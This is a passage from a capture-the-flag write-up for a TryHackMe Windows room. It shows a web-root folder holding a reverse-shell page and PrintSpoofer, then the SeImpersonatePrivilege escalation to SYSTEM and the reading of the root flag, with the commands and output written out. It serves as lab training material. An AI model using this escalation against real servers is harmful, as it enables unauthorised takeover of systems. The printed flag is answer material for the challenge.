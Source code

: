 Navigated to the `nt4wrksv` directory to access the script:

```bash
c:\inetpub\wwwroot>cd nt4wrksv

c:\inetpub\wwwroot\nt4wrksv>dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv

09/13/2025  01:10 PM    <DIR>          .
09/13/2025  01:10 PM    <DIR>          ..
07/25/2020  08:15 AM                98 passwords.txt
09/13/2025  01:10 PM            27,136 PrintSpoofer.exe
09/13/2025  12:42 PM             3,405 rev.aspx
               4 File(s)         31,099 bytes
               2 Dir(s)  21,034,082,304 bytes free
```

Ran the script:

```bash
.\PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

Successfully escalated to `NT AUTHORITY\SYSTEM`.

## Root Flag
Located the root flag:

```bash
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\Users\Administrator\Desktop

07/25/2020  08:24 AM    <DIR>          .
07/25/2020  08:24 AM    <DIR>          ..
07/25/2020  08:25 AM                35 root.txt
               1 File(s)             35 bytes
               2 Dir(s)  21,034,082,304 bytes free

C:\Users\Administrator\Desktop>more root.txt
THM{1fk5kf469devly1gl320zafgl345pv}
```

---

<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style="border:none;"></iframe>

Follow me through these links:

---
